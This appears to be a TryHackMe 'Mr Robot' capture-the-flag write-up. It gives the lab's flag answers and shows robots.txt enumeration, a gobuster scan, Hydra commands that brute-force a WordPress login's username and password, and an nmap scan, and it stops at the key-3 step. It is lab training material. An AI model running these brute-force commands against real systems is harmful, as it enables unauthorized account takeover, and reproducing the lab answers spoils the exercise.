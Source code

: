 ```yaml
---
title:  "TryHackMe | Mr Robot"
layout: post

---
```


## What is key 1?

the hint says: robots

we nagivate to http://10.10.63.240/robots.txt and get this

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
go to:

http://10.10.63.240/key-1-of-3.txt

ans: 073403c8a58a1f80d943455fb30724b9

## What is key 2?

we use gobuster to discover this is a wordpress website with a wp-login page

```
kali@kali:~/Downloads$ gobuster dir -u http://10.10.63.240:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.63.240:80
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/22 03:56:59 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/rss (Status: 200)
/sitemap (Status: 200)
/login (Status: 302)
/0 (Status: 301)
/feed (Status: 200)
/video (Status: 301)
/image (Status: 301)
/atom (Status: 200)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 200)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 200)
/page1 (Status: 200)
/readme (Status: 200)
/robots (Status: 200)
/dashboard (Status: 302)
/%20 (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 403)
/0000 (Status: 301)
Progress: 12561 / 220561 (5.70%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/07/22 04:09:21 Finished
===============================================================
```

download the fsocity.dic file from 10.10.63.240/fsociety.doc

We open up fsociety.dic - it looks like it could be a list of usernames or passwords. Lets try to brute force the username of the wordpress login using hydra

First we need to get the http-post-form from burpsuite

![Github](./images/burpwp.png)

we get this line from burpsuite

```
log=myname&pwd=mypassword&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.116.182%2Fwp-admin%2F&testcookie=1
```

then format it to use with hydra

```console
kali@kali:~/Downloads$ hydra -L fsocity.dic -p test 10.10.107.219 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.107.219%2Fwp-admin%2F&testcookie=1:F=Invalid username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-23 01:15:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.107.219:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.107.219%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: 10.10.107.219   login: Elliot   password: test
```

the username is Elliot

now we use the same dictionary file to brute force the password

```console
kali@kali:~/Downloads$ hydra -l Elliot -P fsocity.dic 10.10.182.118 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.182.118%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-23 09:09:23
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858236 login tries (l:1/p:858236), ~53640 tries per task
[DATA] attacking http-post-form://10.10.182.118:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.182.118%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username
[80][http-post-form] host: 10.10.182.118   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-23 09:10:07
```

the password is: ER28-0652


## What is key 3?

the hint says: nmap

```console
kali@kali:~/Downloads$ nmap -sV -v -Pn -n -p80,443 10.10.63.240
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 03:15 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 03:15
Scanning 10.10.63.240 [2 ports]
Discovered open port 80/tcp on 10.10.63.240
Discovered open port 443/tcp on 10.10.63.240
Completed Connect Scan at 03:15, 0.40s elapsed (2 total ports)
Initiating Service scan at 03:15
Scanning 2 services on 10.10.63.240
Completed Service scan at 03:15, 14.39s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.63.240.
Initiating NSE at 03:15
Completed NSE at 03:15, 3.53s elapsed
Initiating NSE at 03:15
Completed NSE at 03:15, 3.20s elapsed
Nmap scan report for 10.10.63.240
Host is up (0.40s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.24 seconds
```
